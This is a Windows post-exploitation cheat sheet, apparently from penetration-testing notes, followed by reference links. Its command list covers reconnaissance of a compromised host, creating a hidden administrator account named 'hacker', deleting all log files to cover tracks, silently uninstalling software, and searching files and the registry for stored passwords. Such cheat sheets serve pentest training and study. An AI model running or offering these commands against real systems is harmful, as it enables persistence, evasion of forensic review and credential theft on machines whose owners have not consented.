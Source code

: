 # What Next?

Understand the capabilities of the target system:

    whoami /all
    echo %username%

    net user
    net user hacker hack3d /add
    net localgroup administrators hacker /add
    net user hacker /del

    type %SYSTEMDRIVE%\boot.ini
    type %WINDIR%\win.ini
    type %WINDIR%\System32\drivers\etc\hosts

    systeminfo
    tasklist
    fsutil fsinfo drives
    set

    driverquery | findstr Kernel
    sc queryex type= service state= all
    netstat -ano

    sc query <SERVICE NAME>
    sc start <SERVICE NAME>
    sc stop <SERVICE NAME>

    taskkill f /pid 1337
    wevtutil el
    del \*.log /a /s /q /f

    schtasks /query /fo LIST /v
    wmic product get name /value
    wmic product where name="<NAME>" call uninstall /INTERACTIVE:OFF

    dir /s *pass* == *key* == *vnc* == *.config*
    findstr /si pass *.xml *.ini *.txt
    reg query HKLM /f pass /t REG_SZ /s
    reg query HKCU /f pass /t REG_SZ /s



## References

* https://www.exploit-db.com/docs/english/26000-windows-meterpreterless-post-exploitation.pdf
* https://medium.com/@int0x33/day-26-the-complete-list-of-windows-post-exploitation-commands-no-powershell-999b5433b61e
* https://dostoevskylabs.gitbooks.io/dostoevskylabs-pentest-notes/content/chapter-4.html
* https://awesomeopensource.com/projects/post-exploitation
* https://livebook.manning.com/book/penetrating-enterprise-networks/chapter-9/v-5/53
* https://www.hackingarticles.in/manual-post-exploitation-windows-pc-system-command/
* https://github.com/emilyanncr/Windows-Post-Exploitation
* http://www.handgrep.se/repository/cheatsheets/postexploitation/WindowsPost-Exploitation.pdf
* https://ivanitlearning.wordpress.com/2019/03/22/windows-post-exploitation-privesc-pillaging-pivoting/